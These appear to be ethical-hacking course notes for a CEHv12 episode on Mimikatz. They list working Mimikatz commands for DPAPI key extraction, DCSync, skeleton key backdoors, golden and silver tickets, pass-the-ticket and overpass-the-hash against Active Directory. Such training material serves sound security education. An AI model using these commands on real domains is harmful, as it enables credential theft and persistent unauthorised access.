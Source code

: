 - Filename: eccouncil-ceh31250-v12-6-13-1-mimikatz.md
- Show Name: CEHv12 (312-50)
- Topic Name: System Hacking Phases and Attack Techniques - System Hacking
- Episode Name: Mimikatz
================================================================================


Mimikatz
--------------------------------------------------------------------------------

Objectives:
--------------------------------------------------------------------------------

--------------------------------------------------------------------------------

+ Abusing Data Protection API(DPAPI)
  - DPAPI aka Data Protection API
    + Central location that stores
      - Encrypted files
      - Browser Passwords
      	+ Attacker can copy Master Key
  	  - `sekurlsa::dpapi`
  	  - `lsadump::backupkeys /system:servername.example.com /export`
+ Malicious Replication
  - Impersonate a Domain Controller
    + Request password data for accounts from another DC
      - `lsadump::dcsync /domain:example.com /user:Administrator`
+ Skeleton Key Attack
  - Basically a backdoor to any user account
    + Login with any user account with password "mimikatz"
      - `privilege::debug`
      - `misc::skeleton`
+ Golden Ticket Attack
  - Steal password hash for the KRBTGT
    + **Kerberos Ticket Granting Ticket**
      - That, along with:
        + FQDN of target domain
          - `Get-ADDomain`
        + SID of user account
          - `whomai /user`
            + Last 4 numbers are the RID (-####)
              - Leave that off when copying SID
    + Now we can perform Golden Ticket attack
      - `kerberos::golden /domain:example.com /sid:<user sid> /rc4:<krbtgt hash> /id:500 /user:<anyNameYouWant>`
	+ Generates Golden Ticket (**ticket.kirbi**)
	  - Pass the Ticket (PTT)
	    + `kerberos::ptt ticket.kirbi`
	    + `misc::cmd`
+ Silver Ticket Attack
  - Like Golden Ticket
    + Except limited to single service account
      - Must gather and crack password hash of Service account for success
+ Overpass the Hash Attack
  - `privilege::debug`
  - `sekurlsa::logonpasswords`
    + Grab NTLM hash for target user
  - `sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<hash value>`
